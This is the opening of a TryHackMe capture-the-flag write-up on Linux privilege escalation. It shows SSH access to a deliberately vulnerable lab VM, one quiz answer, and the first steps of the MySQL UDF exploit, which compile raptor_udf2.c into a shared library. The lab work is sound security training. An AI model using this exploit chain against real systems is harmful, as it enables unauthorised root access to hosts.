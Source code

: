 # Linux PrivEsc

**Date:** 24, May, 2021

**Author:** Dhilip Sanjay S

---
[Click Here](https://tryhackme.com/room/linuxprivesc) to go to the TryHackMe room.

##  Deploy the Vulnerable Debian VM

```bash
ssh user@10.10.95.239
The authenticity of host '10.10.95.239 (10.10.95.239)' can't be established.
RSA key fingerprint is SHA256:JwwPVfqC+8LPQda0B9wFLZzXCXcoAho6s8wYGjktAnk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.95.239' (RSA) to the list of known hosts.
user@10.10.95.239's password: 
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri May 15 06:41:23 2020 from 192.168.1.125
user@debian:~$ whoami
user
```

### Run the "id" command. What is the result?
- **Answer:** uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)

---

## Service exploits

- [MySQL UDF Exploit](https://www.exploit-db.com/exploits/1518)

```bash
user@debian:~/tools/mysql-udf$ gcc -g -c raptor_udf2.c -fPIC

user@debian:~/tools/mysql-udf$ ls
raptor_udf2.c  raptor_udf2.o

user@debian:~/tools/mysql-udf$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

user@debian:~/tools/mysql-udf$ ls
raptor_udf2.c  raptor_udf2.o  raptor_udf2.so
```
